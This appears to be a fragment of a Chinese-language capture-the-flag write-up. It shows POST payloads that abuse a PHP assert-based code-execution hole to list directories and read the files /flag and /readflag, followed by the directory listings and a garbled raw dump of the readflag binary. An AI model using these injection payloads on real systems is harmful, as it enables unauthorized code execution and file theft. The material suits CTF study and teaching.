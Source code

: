 扫描当前目录 

post 数据： `_=print_r(scandir(%27./%27))&__=assert`

```
Array (    [0] => .    [1] => ..    [2] => index.php )
```

扫描根目录

post数据：`_=print_r(scandir(%27/%27))&__=assert`

```
Array ( [0] => . [1] => .. [2] => .dockerenv [3] => bin [4] => boot [5] => dev [6] => etc [7] => flag [8] => home [9] => lib [10] => lib64 [11] => media [12] => mnt [13] => opt [14] => proc [15] => readflag [16] => root [17] => run [18] => sbin [19] => srv [20] => sys [21] => tmp [22] => usr [23] => var ) 
```

发现有一个flag文件和一个readflag文件。尝试读取内容

读取flag中的文件是空的；

post数据：`_=var_dump(file_get_contents(%27/flag%27))&__=assert`

post数据：`_=var_dump(file_get_contents(%27/readflag%27))&__=assert`

```
string(8856) "ELF>�@�@8 @@@@��888  � � � x� � � � ��TTTDDP�td���<<Q�tdR�td� � � ((/lib64/ld-linux-x86-64.so.2GNU GNU�íf­CI�`[Xa���V�Q ?m 8| � )"!libc.so.6setuidsetegidsystemseteuid__cxa_finalizesetgid__libc_start_main_ITM_deregisterTMCloneTable__gmon_start___Jv_RegisterClasses_ITM_registerTMCloneTableGLIBC_2.2.5ui �� �� `H H � � � � � �     ( 0  8 H��H�� H��t��H����5� �%� @�%� h������%� h������%� h������%� h�����%� h�����%b f�1�I��^H��H���PTL��H� sH�=� �DH�=y H�y UH)�H��H��vH�� H��t ]��fD]�@f.�H�=9 H�52 UH)�H��H��H��H��?H�H��tH�� H��t]��f�]�@f.��=� u'H�=� UH��tH�=� � ����H���]�� ��@f.�H�=A H�?u�^���fDH�) H��t�UH����]�@���UH����������~������_������@���H�=�������]�f.�f�AWAVA��AUATL�%� UH�-� SI��I��L)�H��H������H��t 1��L��L��D��A��H��H9�u�H��[]A\A]A^A_Ðf.���H��H���/bin/cat /flag;8l�������������T����l��������,zRx�����+zRx�$����`FJw�?;*3$"D���\@���TA�C OD|����eB�B�E �B(�H0�H8�M@r8A0A(B BBB������` �� � ���o��� � x��� ���o���o����o���o����o� FVfv�H GCC: (Debian 6.3.0-18+deb9u1) 6.3.0 201705168Tt����� � �0 ����� � � � � �  @ P ��� �.`DP S� z��� ������ �� ���� �� �� ��  �0 � @ LP *�Sg�@ � �H ���0e�X ��+�P ��T�� P  -A"�]rcrtstuff.c__JCR_LIST__deregister_tm_clones__do_global_dtors_auxcompleted.6972__do_global_dtors_aux_fini_array_entryframe_dummy__frame_dummy_init_array_entryreadflag.c__FRAME_END____JCR_END____init_array_end_DYNAMIC__init_array_start__GNU_EH_FRAME_HDR_GLOBAL_OFFSET_TABLE___libc_csu_fini_ITM_deregisterTMCloneTable_edatasystem@@GLIBC_2.2.5__libc_start_main@@GLIBC_2.2.5__data_start__gmon_start____dso_handle_IO_stdin_used__libc_csu_init__bss_startmainsetgid@@GLIBC_2.2.5_Jv_RegisterClasses__TMC_END___ITM_registerTMCloneTablesetuid@@GLIBC_2.2.5__cxa_finalize@@GLIBC_2.2.5setegid@@GLIBC_2.2.5seteuid@@GLIBC_2.2.5.symtab.strtab.shstrtab.interp.note.ABI-tag.note.gnu.build-id.gnu.hash.dynsym.dynstr.gnu.version.gnu.version_r.rela.dyn.rela.plt.init.plt.got.text.fini.rodata.eh_frame_hdr.eh_frame.init_array.fini_array.jcr.dynamic.got.plt.data.bss.comment88#TT 1tt$D���o��N�� V���^���o��k���o�� z����B��x��00`��������� ������<� �� � �� � �� � �� � ��� �0� @�@ @�P P0P-��/ @��" 
```
